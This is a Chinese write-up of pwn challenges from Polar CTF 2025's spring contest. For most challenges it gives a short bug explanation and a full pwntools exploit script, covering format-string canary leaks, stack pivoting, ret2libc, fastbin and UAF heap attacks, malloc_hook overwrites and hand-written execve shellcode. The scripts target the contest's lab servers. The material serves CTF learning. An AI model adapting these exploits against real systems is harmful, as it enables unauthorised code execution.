# Polarctf2025春季赛题解-先知社区

> **来源**: https://xz.aliyun.com/news/17377  
> **文章ID**: 17377

---

#### bllhl\_mom



第一次泄露canary，第二次随便写数据，利用第三次去进行栈迁移到bss段即可

这里执行system($0)

```
from pwn import*
from struct import pack
import ctypes
context(log_level = 'debug',arch = 'x86')
#p=process('./mom')
p=remote('1.95.36.136',2074)
elf=ELF('./mom')
#libc=ELF('/root/glibc-all-in-one/libs/2.31-0ubuntu9.16_amd64/libc.so.6')
libc=ELF('/lib/i386-linux-gnu/libc.so.6')
def bug():
	gdb.attach(p)
	pause()
def s(a):
	p.send(a)
def sa(a,b):
	p.sendafter(a,b)
def sl(a):
	p.sendline(a)
def sla(a,b):
	p.sendlineafter(a,b)
def r(a):
	p.recv(a)
def pr(a):
	print(p.recv(a))
def rl(a):
	return p.recvuntil(a)
def inter():
	p.interactive()
def get_addr64():
	return u64(p.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))
def get_addr32():
	return u32(p.recvuntil("\xf7")[-4:])
def get_sb():
	return libc_base+libc.sym['system'],libc_base+libc.search(b"/bin/sh\x00").__next__()
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')
leave_ret=0x8048638
bss=0x804A0E0+0x500
read=0x80486A7
main=0x80486e3
system=0x8048490
rl("Write a few words to Mom")
s(b'%23$p')
rl('0x')
canary=int(p.recv(8),16)
li(hex(canary))
s(b'a'*0x10)
pay=b'a'*(0x50-0xc)+p32(canary)*3+p32(bss+0x50)+p32(read)
#bug()
s(pay)
payload=(b'a'*4+p32(system)+p32(0)+p32(bss+16)+b'$0').ljust(0x40,b'\x00')+p32(canary)*4+p32(bss)+p32(leave_ret)
s(payload)
inter()

```

#### koi





xxx函数里面有栈溢出可进行构造ret2libc

那么我们需要让v4和n都等于520

看其他函数只有wrshell有用



溢出8字节可覆盖rbp

继续看main函数在switch之后的逻辑



将rbp-4作为scanf读入的地址，那么我们只需要在wrshell函数中控制rbp为n的地址+4即可往n里写数据了。

接下来就是ret2libc

```
from pwn import*
from struct import pack
import ctypes
context(log_level = 'debug',arch = 'amd64')
#p=process('./koi')
p=remote('1.95.36.136',2067)
elf=ELF('./koi')
#libc=ELF('/root/glibc-all-in-one/libs/2.31-0ubuntu9.16_amd64/libc.so.6')
libc=ELF('/root/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc.so.6')
def bug():
	gdb.attach(p)
	pause()
def s(a):
	p.send(a)
def sa(a,b):
	p.sendafter(a,b)
def sl(a):
	p.sendline(a)
def sla(a,b):
	p.sendlineafter(a,b)
def r(a):
	p.recv(a)
def pr(a):
	print(p.recv(a))
def rl(a):
	return p.recvuntil(a)
def inter():
	p.interactive()
def get_addr64():
	return u64(p.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))
def get_addr32():
	return u32(p.recvuntil("\xf7")[-4:])
def get_sb():
	return libc_base+libc.sym['system'],libc_base+libc.search(b"/bin/sh\x00").__next__()
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')
rdi=0x0000000000400a63
rl("3.exif")
sl(str(1))
rl("Enter number:")
sl(str(1))
rl("size:")
sl(str(1))
rl("Enter sehll:")
payload=b'a'*0x50+p64(0x60108C+4)
s(payload)
rl('Enter a:')
sl(str(520))
rl("Welcome to Polar CTF!
")
payload1=b'a'*0x58+p64(rdi)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(elf.sym['xxx'])
s(payload1)
libc_base=get_addr64()-libc.sym['puts']
li(hex(libc_base))
system=libc_base+0x453a0
bin=libc_base+0x18ce57
rl("Welcome to Polar CTF!
")
payload2=b'a'*0x58+p64(rdi)+p64(bin)+p64(system)
#bug()
s(payload2)
inter()

```

#### thinks

输入5212，判断magic是否大于0x145c



大于则进入wish函数，该函数是后门函数

无uaf，但是edit函数有堆溢出



思路：先free一个堆块进入fastbins，在对该堆块的上一个堆块进行edit，利用溢出修改被free堆块的fd为magic附近地址，再申请回来，往magic上写入数据即可

```
from pwn import*
from struct import pack
import ctypes
context(log_level = 'debug',arch = 'amd64')
#p=process('./thinks')
p=remote('1.95.36.136',2077)
elf=ELF('./thinks')
#libc=ELF('/root/glibc-all-in-one/libs/2.31-0ubuntu9.16_amd64/libc.so.6')
libc=ELF('/root/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc.so.6')
def bug():
	gdb.attach(p)
	pause()
def s(a):
	p.send(a)
def sa(a,b):
	p.sendafter(a,b)
def sl(a):
	p.sendline(a)
def sla(a,b):
	p.sendlineafter(a,b)
def r(a):
	p.recv(a)
def pr(a):
	print(p.recv(a))
def rl(a):
	return p.recvuntil(a)
def inter():
	p.interactive()
def get_addr64():
	return u64(p.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))
def get_addr32():
	return u32(p.recvuntil("\xf7")[-4:])
def get_sb():
	return libc_base+libc.sym['system'],libc_base+libc.search(b"/bin/sh\x00").__next__()
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')
def add(size,content):
    rl('Your best choice :')
    s(str(1))
    rl('Size of blessing : ')
    s(str(size))
    rl('Content of blessing:')
    s(content)

def edit(index,size,content):
    rl('Your best choice :')
    s(str(2))
    rl('Index :')
    s(str(index))
    rl('Size of blessing : ')
    s(str(size))
    rl('Content of blessing : ')
    s(content)

def free(index):
    rl('Your best choice :')
    s(str(3))
    rl('Index :')
    s(str(index))
def exp():
    add(0x68,b'a')
    add(0x68,b'a')
    add(0x68,b'a')
    add(0x68,b'a')
    add(0x68,b'a')
    free(1)
    free(2)
    free(3)
    edit(0,0x1000,b'a'*0x68+p64(0x71)+b'a'*0x68+p64(0x71)+p64(0x6020b0-3))
    add(0x68,b'a')
    add(0x68,b'a')
    add(0x68,b'a'*3+p64(0x11111111)*10)
    rl('Your best choice :')
    s(str(5212))
exp()
#bug()
inter()

```

#### ez\_heap1

跟thinks这道题的打法是一样的

```
from pwn import*
from struct import pack
import ctypes
context(log_level = 'debug',arch = 'amd64')
#p=process('./ezheap1')
p=remote('1.95.36.136',2130)
elf=ELF('./ezheap1')
#libc=ELF('/root/glibc-all-in-one/libs/2.31-0ubuntu9.16_amd64/libc.so.6')
libc=ELF('/root/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc.so.6')
def bug():
    gdb.attach(p)
    pause()
def s(a):
    p.send(a)
def sa(a,b):
    p.sendafter(a,b)
def sl(a):
    p.sendline(a)
def sla(a,b):
    p.sendlineafter(a,b)
def r(a):
    p.recv(a)
def pr(a):
    print(p.recv(a))
def rl(a):
    return p.recvuntil(a)
def inter():
    p.interactive()
def get_addr64():
    return u64(p.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))
def get_addr32():
    return u32(p.recvuntil("\xf7")[-4:])
def get_sb():
    return libc_base+libc.sym['system'],libc_base+libc.search(b"/bin/sh\x00").__next__()
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')


def add(index,size):
    rl("choice:")
    sl(str(1))
    rl("index:")
    sl(str(index))
    rl("size:")
    sl(str(size))


def edit(index,size,content):
    rl("choice:")
    sl(str(2))
    rl("index:")
    sl(str(index))
    rl("length:")
    sl(str(size))
    rl("content:")
    s(content)


def free(index):
    rl("choice:")
    sl(str(3))
    rl("index:")
    sl(str(index))


key=0x2020AC#0xABCDEF
add(0,0x68)
add(1,0x68)
add(2,0x68)
free(1)
rl("choice:")
sl(str(5))
rl(b'0x')
key=int(p.recv(12),16)
li(hex(key))
edit(0,0x200,b'a'*0x68+p64(0x71)+p64(key-0x10-15))
add(3,0x68)
add(4,0x68)
edit(4,0x200,b'a'*15+p64(0xABCDEF))
rl("choice:")
sl(str(5))
inter()
```

#### onegadget

2.23版本的堆题标准菜单题

uaf



攻击malloc\_hook为onegadget

```
from pwn import*
from struct import pack
import ctypes
context(log_level = 'debug',arch = 'x86')
p=process('./onegadget')
#p=remote('1.95.36.136',2069)
elf=ELF('./onegadget')
#libc=ELF('/root/glibc-all-in-one/libs/2.31-0ubuntu9.16_amd64/libc.so.6')
libc=ELF('/root/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc.so.6')
def bug():
	gdb.attach(p)
	pause()
def s(a):
	p.send(a)
def sa(a,b):
	p.sendafter(a,b)
def sl(a):
	p.sendline(a)
def sla(a,b):
	p.sendlineafter(a,b)
def r(a):
	p.recv(a)
def pr(a):
	print(p.recv(a))
def rl(a):
	return p.recvuntil(a)
def inter():
	p.interactive()
def get_addr64():
	return u64(p.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))
def get_addr32():
	return u32(p.recvuntil("\xf7")[-4:])
def get_sb():
	return libc_base+libc.sym['system'],libc_base+libc.search(b"/bin/sh\x00").__next__()
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')
def add(index, size):
	rl('>>')
	sl(str(1))
	rl('idx? ')
	sl(str(index))
	rl('size? ')
	sl(str(size))
	
def delete(index):
	rl('>>')
	sl(str(2))
	rl('idx? ')
	sl(str(index))
	
def show(index):
	rl('>>')
	sl(str(3))
	rl('idx? ')
	sl(str(index))
	
def edit(index, content):
	rl('>>')
	sl(str(4))
	rl('idx? ')
	sl(str(index))
	rl('content : ')
	s(content)

add(0,0x80)
add(1,0x60)
delete(0)
show(0)
rl('content : ')
malloc_hook =get_addr64()-0x68
li(hex(malloc_hook))
libc_base =malloc_hook-libc.sym['__malloc_hook']
li(hex(libc_base))
onegadget = libc_base+0xf1247
delete(1)
edit(1,p64(malloc_hook-0x23))
add(2,0x60)
add(3,0x60)
edit(3,b'A'*0x13+p64(onegadget))
add(4,0x60)

inter()

```

#### fmt\_text

32位，got可打



gets溢出，格式化字符串漏洞

利用fmtstr\_payload

修改printf为system即可

```
from pwn import*
from struct import pack
import ctypes
#context(log_level = 'debug',arch = 'amd64')
#p=process('./fmt')
p=remote('1.95.36.136',2150)
elf=ELF('./fmt')
#libc=ELF('/root/glibc-all-in-one/libs/2.31-0ubuntu9.16_amd64/libc.so.6')
#libc=ELF('/root/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc.so.6')
def bug():
	gdb.attach(p)
	pause()
def s(a):
	p.send(a)
def sa(a,b):
	p.sendafter(a,b)
def sl(a):
	p.sendline(a)
def sla(a,b):
	p.sendlineafter(a,b)
def r(a):
	p.recv(a)
def pr(a):
	print(p.recv(a))
def rl(a):
	return p.recvuntil(a)
def inter():
	p.interactive()
def get_addr64():
	return u64(p.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))
def get_addr32():
	return u32(p.recvuntil("\xf7")[-4:])
def get_sb():
	return libc_base+libc.sym['system'],libc_base+libc.search(b"/bin/sh\x00").__next__()
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')
payload = fmtstr_payload(6,{elf.got['printf']:elf.plt['system']})
sl(payload)
pause()
sl(b'/bin/sh\x00')
inter()

```

​

#### libc

32位的ret2libc,朴实无华

```
from pwn import*
from struct import pack
import ctypes
context(log_level = 'debug',arch = 'x86')
#p=process('./libc')
p=remote('1.95.36.136',2053)
elf=ELF('./libc')
#libc=ELF('/root/glibc-all-in-one/libs/2.31-0ubuntu9.16_amd64/libc.so.6')
#libc=ELF('/root/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc.so.6')
def bug():
	gdb.attach(p)
	pause()
def s(a):
	p.send(a)
def sa(a,b):
	p.sendafter(a,b)
def sl(a):
	p.sendline(a)
def sla(a,b):
	p.sendlineafter(a,b)
def r(a):
	p.recv(a)
def pr(a):
	print(p.recv(a))
def rl(a):
	return p.recvuntil(a)
def inter():
	p.interactive()
def get_addr64():
	return u64(p.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))
def get_addr32():
	return u32(p.recvuntil("\xf7")[-4:])
def get_sb():
	return libc_base+libc.sym['system'],libc_base+libc.search(b"/bin/sh\x00").__next__()
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')
rl('like')
payload=b'a'*(0x3a+4)+p32(elf.plt['puts'])+p32(elf.sym['main'])+p32(elf.got['read'])
s(payload)
libc_base=get_addr32()-0xd4460
li(hex(libc_base))
system=libc_base+0x3a950
bin=libc_base+0x15912b
rl('like')
payload=b'a'*(0x3a+4)+p32(system)+p32(0)+p32(bin)
s(payload)
inter()

```

#### bllbl\_shellcode\_2



有jmp\_rsp



我们只有5+8个字节可以去写shellcode

跳转看下寄存器情况



构造execve

```
    mov al,0x3b
    mov esi,edi
    mov edi,0x402047;
    mov edx,esi
    syscall
```

刚刚好13个字节‘

```
from pwn import*
from struct import pack
import ctypes
context(log_level = 'debug',arch = 'amd64')
p=process('./shell2')
#p=remote('1.95.36.136',2141)
elf=ELF('./shell2')
#libc=ELF('/root/glibc-all-in-one/libs/2.31-0ubuntu9.16_amd64/libc.so.6')
#libc=ELF('/root/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc.so.6')
def bug():
	gdb.attach(p)
	pause()
def s(a):
	p.send(a)
def sa(a,b):
	p.sendafter(a,b)
def sl(a):
	p.sendline(a)
def sla(a,b):
	p.sendlineafter(a,b)
def r(a):
	p.recv(a)
def pr(a):
	print(p.recv(a))
def rl(a):
	return p.recvuntil(a)
def inter():
	p.interactive()
def get_addr64():
	return u64(p.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))
def get_addr32():
	return u32(p.recvuntil("\xf7")[-4:])
def get_sb():
	return libc_base+libc.sym['system'],libc_base+libc.search(b"/bin/sh\x00").__next__()
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')
jmp_rsp=0x40137D
binsh=0x402047
shellcode=asm("""
    mov al,0x3b
    mov esi,edi
    mov edi,0x402047;
    mov edx,esi
    syscall
"""
)
shellcode+=p64(jmp_rsp)
shellcode+=asm("""
	sub rsp,0x15;
	jmp rsp
"""
)
#bug()
s(shellcode)
inter()

```

#### NICOUAF

32位堆

存在uaf



利用点在show函数



判断我们输入的堆序号是否存在如果存在则打印数据

不存在就会执行(\*((void (\_\_cdecl \*\*)(char \*))page + 1))(page);

这里是我们可自己控制的堆内容

那么我们只需要利用uaf漏洞去伪造指针，在堆上构造system(/sh )即可

先free0号堆块，在申请回来，此时是0号和1号是一个堆块，修改1号堆块

show（0）即可

